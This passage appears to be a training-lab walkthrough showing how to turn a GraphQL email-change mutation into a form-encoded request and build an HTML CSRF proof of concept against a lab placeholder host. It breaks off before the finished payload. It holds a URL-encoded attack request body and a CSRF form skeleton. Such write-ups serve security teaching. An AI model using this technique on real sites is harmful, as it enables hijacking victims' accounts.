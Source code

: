 The email change is sent as a GraphQL mutation. Right-click this request and "Send to Repeater". Go to GraphQL tab within the request pane and change the value of __Variable__ email to a different email address. Send the request and notice that it changed the email:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 88

{
  "data": {
    "changeEmail": {
      "email": "attacker@notfakemail.com"
    }
  }
}
```

This indicates that a session cookie can be reused to send multiple requests. 

Convert the request into a `POST` request with a `Content-Type` of `x-www-form-urlencoded`. To do this, right-click the request and select __Change request method__ twice. 

Notice that the mutation request body has been deleted. Add the request body back in with URL encoding:

```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

In the browser, navigate to __exploit server__ and paste the following HTML backbone for a CSRF PoC:

```html
<html>
  <form action="https://YOUR-LAB-ID.web-security-academy.net/graphql/v1" method="POST">
    <input type="hidden" name="" value="">
    <input type="hidden" name="" value="">
    <input type="hidden" name="" value="">
  </form>
  <script>

  </script>
</html>
```

Now carefully follow this:
- Identify parameter _names_ and _values_ in the request body above. 
- Copy and paste the __names__ into the three `<input name=""` fields.
- Copy each __value__ one by one, go to __Decoder__, URL decode it first, and encode as HTML. Then copy and paste it in the `<input value=""` field.

The final PoC should look like this:
